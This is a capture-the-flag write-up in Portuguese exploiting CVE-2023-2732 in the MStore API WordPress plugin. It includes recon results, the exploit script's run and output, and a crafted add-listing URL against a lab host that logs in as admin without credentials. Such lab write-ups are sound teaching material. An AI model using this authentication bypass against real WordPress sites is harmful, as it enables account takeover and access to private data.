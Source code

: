 # Wordpress CVE

## Reconhecimento

- Após uma verificação da aplicação web, conseguimos obter informações importantes a ser exploradas.

|            Feature             |    Version   |
|--------------------------------|--------------|
| Wordpress                      | 5.8.1        |
| MStore API                     | 3.9.0        |
| WooCommerce plugin             | 5.7.1        |
| Booster for WooCommerce plugin | 5.4.4        |


- Possíveis utilizadores:

    1. admin
    
    2. Orval Sanford

## Vulnerabilidades

- O CVE encontrado foi o CVE-2023-2732.

- O plugin MStore API para WordPress é vulnerável a uma falha de autenticação nas versões até `3.9.2` 

- Isto deve-se à verificação insuficiente do utilizador fornecido durante a solicitação da API REST para adicionar listagens através do plugin. 

- Isto torna possível para atacantes não autenticados entrarem como qualquer utilizador existente no site, como um `admin`, se tiverem acesso ao ID do utilizador.

## Exploit

- Conhecida a vulnerabilidade, iniciámos a procura de um exploit ideal para explorar o CVE.


```
python3 mstore-api.py -u http://wordpress.lan


The plugin version is below 3.9.3.
Select a user:
1. admin
Enter the user ID: 1



Congratulations a vulnerable system has been found.

How to Exploit:

Visit the following url: http://wordpress.lan/wp-json/wp/v2/add-listing?id=1
Visit  http://wordpress.lan and you should be logged in as the user you have chosen.
```

- Substituímos o url exemplo pelo url pretendido.

```
http://143.47.40.175:5001/wp-json/wp/v2/add-listing?id=1
```

- Desta maneira, ao visitarmos de novo o site, foi possível autenticar como `admin`.

## Ataque

- Agora na conta do admin, foi possível ter acesso a todo o tipo de informação privilegiada do site.

- Ao analisar um post privado, encontrámos a flag pretendida `flag{byebye}`.

![image](screenshots/CTF3_1.png)